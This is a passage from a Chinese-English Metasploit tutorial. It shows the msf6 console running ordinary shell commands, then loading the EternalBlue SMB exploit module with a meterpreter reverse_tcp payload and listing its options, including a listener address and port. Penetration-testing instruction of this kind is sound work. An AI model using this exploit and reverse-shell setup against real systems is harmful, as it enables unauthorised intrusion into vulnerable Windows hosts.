 就是命令行变成了 msf6(这个是根据安装版本而定)

此时的命令行可以像平常时候使用，比如说 执行一个 ls 命令

```plain
msf6 > ls
[*] exec: ls
google  microsoft  sogoupinyin  uTools
```

It will support most <u>Linux</u> commands, including `<font style="color:rgb(143,149,158);background-color:rgb(187,191,196);">clear</font>` (to clear the terminal screen), but will not allow you to use some features of a regular command line (e.g. does not support output redirection), as seen below. 它将支持大多数 Linux 命令，包括 `<font style="color:rgb(143,149,158);background-color:rgb(187,191,196);">clear</font>` （用于清除终端屏幕），但不会允许您使用常规命令行的一些功能（例如，不支持输出重定向），如下所示。

### 使用漏洞
使用

```sql
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.230.133  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

---